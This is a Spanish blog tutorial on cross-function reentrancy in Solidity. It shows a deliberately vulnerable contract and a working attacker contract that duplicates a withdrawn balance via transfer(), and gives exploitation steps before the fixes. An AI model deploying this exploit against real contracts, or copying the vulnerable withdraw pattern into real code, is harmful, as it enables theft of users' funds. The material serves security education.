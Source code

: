 ```yaml
---
title: 'Solidity: Ataque Reentrancy Cruzado'
description: 'La vulnerabilidad conocida como Reetrancy permite llamar a una misma función una y otra vez. Existe una variante que provoca el llamado a una segunda función. Se lo conoce con el nombre de Reetrancy Cruzado.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Cross Reentrancy Attack',
  description: 'The vulnerability known as Reetrancy allows the same function to be called over and over again. There is a variant that causes a second function to be called. It is known by the name of Reetraccy Cruzado.'
}
prev: 'solidity-reentrancy-attack'
next: 'solidity-self-destruct-attack'
---
```


# Solidity: Ataque Reentrancy Cruzado

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones

Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
  mapping (address => uint) private balances;

  // Función para depositar ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Función para retirar todo el ETH de una cuenta
  function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}("");
    require(result);
    balances[msg.sender] = 0;
  }

  // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
  function transfer(address to, uint amount) public {
    if (balances[msg.sender] >= amount) {
      balances[to] += amount;
      balances[msg.sender] -= amount;
    }
  }

  // Función para ver el balance de una cuenta
  function getBalance(address addr) public view returns (uint) {
    return balances[addr];
  }

  // Función para ver el balance total del contrato
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por su parte, el contrato atacante:

```js
contract Ataque {
  // Dirección del owner de contrato donde se duplicará el balance
  address payable ownerAddr;

  ReentrancyCross public reentrancyCross;

  constructor(address _reentrancyCrossAddress) {
    // Instanciamos el contrato ReentrancyCross
    reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
    ownerAddr = payable(msg.sender);
  }

  // Función que recibe los ETH luego de un retiro
  receive() external payable {
    // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
    reentrancyCross.transfer(ownerAddr, msg.value);
  }

  // Función que ocasiona el llamado a una segunda función luego del retiro
  function attack() external payable {
    require(msg.value >= 1 ether);
    reentrancyCross.deposit{value: 1 ether}();
    reentrancyCross.withdraw();
  }

  // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `ReentrancyCross`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

### ¿Qué sucedió aquí?

`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?

Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
  uint amount = balances[msg.sender];
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
  balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?

Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
  uint amount = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones

Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
Post creado en colaboración con el [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45718-denegacion-por-reversion/) de **Platzi**.
